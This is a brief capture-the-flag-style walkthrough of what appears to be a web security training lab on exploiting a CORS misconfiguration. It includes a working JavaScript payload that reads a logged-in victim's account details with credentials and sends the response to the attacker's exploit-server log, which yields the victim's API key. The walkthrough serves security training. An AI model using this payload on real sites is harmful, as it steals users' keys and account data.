 # 1. Turn on Foxyproxy using Burp : #
* Proxy Type: HTTP<br>
* Proxy IP or DNS name: 127.0.0.1<br>
* Port: 8080<br>
* install ca.cert by access url: http://burp<br>
# 2. Login website with credential: wiener :: peter # 
# 3. Choose Go to exploit server#
# 4. Edit body request with follow code: #
```
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','$url/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script> 
```
# 5. Click Store #
# 6. Click Deliver exploit to victim #
# 7. Click Access log #
# 8. Copy the request include api #
# 9. Using decoder function in burpsuite with url decode mode to retrieve the victim's API key
# 10. Submit the API to resolved the lab
